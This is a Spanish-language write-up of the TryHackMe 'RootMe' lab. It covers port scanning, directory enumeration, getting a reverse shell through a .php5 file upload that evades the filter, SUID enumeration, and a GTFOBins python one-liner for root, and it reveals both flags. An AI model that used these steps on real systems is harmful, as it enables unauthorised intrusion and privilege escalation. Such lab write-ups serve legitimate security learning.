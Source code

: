 ```yaml
---
layout:   post
title:    "Walkthrough RootMe."
subtitle: "Starting-Point"
category:   THM
tags:      [Easy,Linux,GTFOBins,Enumeration,PHP,Reverse-Shell,Walkthrough,Starting-Point]
---
```

![list](/assets/img/rootme/rootme.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.59.240 -oG allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comando anterior podremos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -sCV -p22,80 10.10.59.240 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

![list](/assets/img/rootme/Kali-2022-09-19-11-57-40.png){:.lead width="800" height="100" loading="lazy"}

***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Investigamos el servicio http que corre en el pueto 80, podemos usar `wapalizzer` para 

ver que tecnologias usa la pagina asi como desde el terminal `whatweb` al hacer 

`crtl+ u` no encontramos nada. 

Fuzzeamos la direccion IP para enumerar posibles direcctorios y nos encontramos el 

directorio `/panel/`y`/uploads/`.

```bash
gobuster dir -u http://10.10.59.240 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
```

***
## Explotacion

Podemos tratar de subir archivos pero algunas extenciones estan prohibidas como los 

son php entre otras de ejecucion solo esan habilitadas las extenciones de imagenes y 

la de `php5` y es la extension que aprovecharemos, nos montamos un script en php5 para 

levantarnos una [reverse-shell]

[reverse-shell]: https://www.revshells.com/

![list](/assets/img/rootme/Kali-2022-09-19-12-23-28.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
En panel tenemos un formulario para subir archivos, ponemos a la escucha el lsitener 

con el puerto a eleccion.


Con acceso a la victima gracias a la shell ya solo debmos buscar la flag de usuario 

siempres suelen estar en `/Desktop/` pero en este caso se encuentra en `/var/www/` buscarlo 

manualmente puede ser tedioso asi que lo buscamos con `find` con el siguiente comando.

```bash
find / -name user.txt
```

{:.note}
Hacemos un cat a user.txt y vemos la flag `THM{y0u_g0t_a_sh3ll}`.

***
## Escalacion de privilegios 

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles 

vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores 

podemos buscar los permisos con el comado find con el siguite comado.

```bash
find \ -perm -4000 2>/dev/bull
```
{:.note}
Entre otros python tiene permisos de root.

Hay un recurso en internet que es [Gtfobins] que es unrecopilatorio ppara escalar 

de privileguios a traves de de binarios con permisos.

[Gtfobins]: https://gtfobins.github.io/

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Con lo anterior ya somos root lo siguientes es bucar la root de superusuario de la 

misma forma que hicimos con el usuario de menos privileguios.

```bash
find / -name root.txt
```
{:.note}
Hacemos un cat a root.txt y vemos la flag `THM{pr1v1l3g3_3sc4l4t10n}`.

![list](/assets/img/rootme/Kali-2022-09-19-13-06-27.png){:.lead width="800" height="100" loading="lazy"}

***
```bash
🎉 Felicitaciones ya has comprometido RootMe de Try Hack Me 🎉
```
{:.centered}
***